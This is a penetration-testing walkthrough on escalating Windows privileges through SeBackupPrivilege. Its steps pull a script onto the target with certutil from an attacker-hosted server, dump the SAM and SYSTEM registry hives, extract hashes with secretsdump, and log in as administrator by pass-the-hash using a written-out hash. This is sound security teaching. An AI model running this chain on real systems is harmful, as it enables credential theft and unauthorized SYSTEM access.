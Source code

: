 ### **INTRODUCTION**

SeBackupPrivilege allows a user to back up files and directories. This privilege grants the ability to traverse any folder and list its contents, even if there are no explicit access control entries (ACEs) for the user in the folder's access control list (ACL). It is commonly used by service accounts for backup purposes. Understanding and leveraging this privilege can be crucial for privilege escalation during a penetration test.

### **STEP 1: CHECK CURRENT USER PRIVILEGES**

1.  Check if current user has SeBackupPrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/128.png)

    **NOTE:** If it is not enabled, proceed to the next step to enable it.

### **STEP 2: ENABLE SEBACKUPPRIVILEGE (OPTIONAL)**

2.  Download the EnableAllTokenPrivs.ps1 script to enable SeBackupPrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  

    ![](../../../img/Windows-Environment/129.png)

    **NOTE:** Host the script Using Python `python -m http.server 80`
    
3.  Transfer the EnableAllTokenPrivs.ps1 script to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/130.png)

    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeTakeOwnershipPrivilege is now enabled  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/131.png)
    

### **STEP 3: EXPLOIT BACKUP SAM & SYSTEM**

1.  Save the registry  
    `reg save hklm\system system.hive`  
    `reg save hklm\sam sam.hive`  
    
    ![](../../../img/Windows-Environment/132.png)
    
2.  Transfer the sam.hive and system.hive files to the attacker machine via SMB, then use impacket-secretsdump to extract and decode the credentials from these files.  
    `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`  
    
    ![](../../../img/Windows-Environment/133.png)
    
3.  We can use the Administrator hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:  
    `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:34386a771aaca697f447754e4863d38a administrator@[IP-ADRESS]`  
    
    ![](../../../img/Windows-Environment/134.png)